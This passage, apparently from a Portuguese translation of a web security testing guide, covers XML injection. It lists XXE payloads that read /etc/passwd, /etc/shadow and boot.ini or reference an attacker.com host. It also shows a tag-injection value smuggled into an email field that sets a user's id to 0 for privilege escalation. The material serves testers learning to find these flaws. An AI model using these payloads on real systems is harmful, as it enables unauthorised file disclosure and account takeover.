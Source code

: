 Outros testes úteis são os seguintes:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
```

### Injeção de Tag

Uma vez concluída a primeira etapa, o testador terá algumas informações sobre a estrutura do documento XML. Então, é possível tentar injetar dados e tags XML. Vamos mostrar um exemplo de como isso pode levar a um ataque de escalonamento de privilégios.

Vamos considerar a aplicação anterior. Ao inserir os seguintes valores:

```txt
Nome de usuário: tony
Senha: Un6R34kb!e
E-mail: s4tan@hell.com</email><userid>0</userid><email>s4tan@hell.com
```

a aplicação criará um novo nó e o anexará ao banco de dados XML:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<usuários>
    <usuário>
        <nome_de_usuário>gandalf</nome_de_usuário>
        <senha>!c3</senha>
        <userid>0</userid>
        <email>gandalf@middleearth.com</email>
    </usuário>
    <usuário>
        <nome_de_usuário>Stefan0</nome_de_usuário>
        <senha>w1s3c</senha>
        <userid>500</userid>
        <email>Stefan0@whysec.hmm</email>
    </usuário>
    <usuário>
        <nome_de_usuário>tony</

nome_de_usuário>
        <senha>Un6R34kb!e</senha>
        <userid>500</userid>
        <email>s4tan@hell.com</email>
        <userid>0</userid>
        <email>s4tan@hell.com</email>
    </usuário>
</usuários>
```
